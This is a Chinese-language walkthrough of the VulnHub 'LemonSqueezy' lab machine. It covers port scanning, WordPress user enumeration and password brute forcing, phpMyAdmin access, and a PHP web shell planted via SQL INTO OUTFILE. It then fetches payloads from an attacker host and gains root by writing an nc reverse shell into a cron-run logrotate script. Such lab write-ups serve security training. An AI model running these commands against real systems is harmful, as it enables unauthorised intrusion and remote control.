


# LemonSqueezy

> https://download.vulnhub.com/lemonsqueezy/LemonSqueezy.7z

靶场IP：`192.168.32.218`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p 1-65535 -sV  192.168.32.218                                                                                                                                                                                               
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-09 11:31 EDT
Nmap scan report for 192.168.32.218
Host is up (0.00078s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
MAC Address: 00:0C:29:F6:8C:26 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.60 seconds

```

访问80端口


爆破web目录

```
┌──(root💀kali)-[~]
└─# dirb http://192.168.32.218                                                                                                                                                                                                        

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Sep  9 11:45:04 2022
URL_BASE: http://192.168.32.218/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.218/ ----
+ http://192.168.32.218/index.html (CODE:200|SIZE:10701)                                                                                                                                                                                   
==> DIRECTORY: http://192.168.32.218/javascript/                                                                                                                                                                                           
==> DIRECTORY: http://192.168.32.218/manual/                                                                                                                                                                                               
==> DIRECTORY: http://192.168.32.218/phpmyadmin/                                                                                                                                                                                           
+ http://192.168.32.218/server-status (CODE:403|SIZE:279)                                                                                                                                                                                  
==> DIRECTORY: http://192.168.32.218/wordpress/                                                                                                                                                                                            
                                                                                                                                                                                                                                           
---- Entering directory: http://192.168.32.218/javascript/ ----
==> DIRECTORY: http://192.168.32.218/javascript/jquery/                                                                                                                                                                                    
                                                                                                                                                                                                                                           
---- Entering directory: http://192.168.32.218/manual/ ----

```

访问：`/wordpress/`



配置hosts

```
192.168.32.218 lemonsqueezy
```


wpscan枚举用户

```
wpscan --url http://lemonsqueezy/wordpress --enumerate u
```

```
[i] User(s) Identified:

[+] lemon
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://lemonsqueezy/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] orange
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

wpscan爆破密码

```
wpscan --url http://lemonsqueezy/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames lemon,orange
```

```
[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - orange / ginger 
```

登录 wordpress 后，我们会看到一个草稿帖子，发现有密码：`n0t1n@w0rdl1st!`


然后我记得在目录扫描期间我们有"`phpmyadmin`"页面，我尝试使用`orange`用户的这个凭据登录到 `phpmyadmin`。


我们可以看到`orange`密码的哈希值，我试图破解它但没有成功。因此，我使用与用户`orange`相同的哈希对其进行了更改。


以`leon`用户的身份登录。


然后我尝试上传易受攻击的插件和外壳但无法成功，似乎我们无法在服务器上写入任何内容，因为它显示临时文件夹丢失。

在 wordpress 之后，我尝试通过运行 SQL 查询来上传 shell。

```
select "<?php echo shell_exec($_GET['cmd']);?>" into outfile '/var/www/html/wordpress/wp-content/uploads/shell.php'
```

```
┌──(root💀kali)-[/tmp]
└─# curl http://192.168.32.218/wordpress/wp-content/uploads/shell.php?cmd=id   
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

下载反弹shell

```
http://192.168.32.218/wordpress/wp-content/uploads/shell.php?cmd=wget%20http://192.168.32.130/shell.php%20-O%201.php
```

下载LinEnum.sh

```
www-data@lemonsqueezy:/var/www/html/wordpress/wp-content/uploads$ wget http://192.168.32.130/LinEnum.sh
<tent/uploads$ wget http://192.168.32.130/LinEnum.sh              
--2022-09-10 12:32:33--  http://192.168.32.130/LinEnum.sh
Connecting to 192.168.32.130:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

LinEnum.sh          100%[===================>]  45.54K  --.-KB/s    in 0s      

2022-09-10 12:32:33 (252 MB/s) - 'LinEnum.sh' saved [46631/46631]

www-data@lemonsqueezy:/var/www/html/wordpress/wp-content/uploads$ chmod +x LinEnum.sh

```

发现一个计划任务


查看：`logrotate`

```
www-data@lemonsqueezy:/tmp$ cat /etc/logrotate.d/logrotate
cat /etc/logrotate.d/logrotate
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()

```

输入反弹shell

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.32.130 9999 >/tmp/f" > /etc/logrotate.d/logrotate
```

两分钟后，就可以看到建立连接。


